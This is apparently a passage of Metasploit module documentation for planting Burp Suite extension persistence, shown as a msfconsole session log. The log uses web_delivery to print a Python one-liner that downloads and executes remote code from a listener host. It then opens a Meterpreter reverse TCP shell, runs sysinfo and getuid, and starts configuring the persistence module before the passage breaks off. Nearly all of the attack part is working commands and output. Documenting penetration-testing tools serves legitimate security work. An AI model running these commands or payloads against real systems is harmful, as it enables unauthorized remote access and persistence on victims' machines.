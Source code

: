 ### Linux/Kali Burp 2024.10.3

Initial access

```
[msf](Jobs:0 Agents:0) > use exploit/multi/script/web_delivery 
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/script/web_delivery) > setg verbose
verbose => true
[msf](Jobs:0 Agents:0) exploit(multi/script/web_delivery) > setg lhost 1.1.1.1
lhost => 1.1.1.1
[msf](Jobs:0 Agents:0) exploit(multi/script/web_delivery) > set target 0
target => 0
[msf](Jobs:0 Agents:0) exploit(multi/script/web_delivery) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/script/web_delivery) > exploit
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] Started reverse TCP handler on 1.1.1.1:4646 
[*] Using URL: http://1.1.1.1:8282/dRgZhDZiHCi7X
[*] Server started.
[*] Run the following command on the target machine:
python -c "import sys;import ssl;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://1.1.1.1:8282/dRgZhDZiHCi7X', context=ssl._create_unverified_context());exec(r.read());"
[*] 1.1.1.1    web_delivery - Delivering Payload (436 bytes)
[*] Sending stage (24772 bytes) to 1.1.1.1
[*] Meterpreter session 1 opened (1.1.1.1:4646 -> 1.1.1.1:44554) at 2025-01-21 14:26:57 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/root/metasploit-framework) > sysinfo
Computer        : kali
OS              : Linux 6.11.2-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.11.2-1kali1 (2024-10-15)
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
(Meterpreter 1)(/root/metasploit-framework) > getuid
Server username: h00die
```

#### Burp via Build

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/multi/local/burp_extension_persistence 
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
[*] Using action precompiled - view all 2 actions with the show actions command
[msf](Jobs:1 Agents:1) exploit(multi/local/burp_extension_persistence) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(multi/local/burp_extension_persistence) > set action build
action => build
[msf](Jobs:1 Agents:1) exploit(multi/local/burp_extension_persistence) > set target 1
target => 1
[msf](Jobs:0 Agents:1) exploit(multi/local/burp_extension_persistence) > set action build
action => build
[msf](Jobs:0 Agents:1) exploit(multi/local/burp_extension_persistence) > set target 1
target => 1
[msf](Jobs:0 Agents:1) exploit(multi/local/burp_extension_persistence) > set writabledir /tmp/
writabledir => /tmp/
[msf](Jobs:0 Agents:1) exploit(multi/local/burp_extension_persistence) > set payload cmd/unix/python/meterpreter/reverse_tcp
```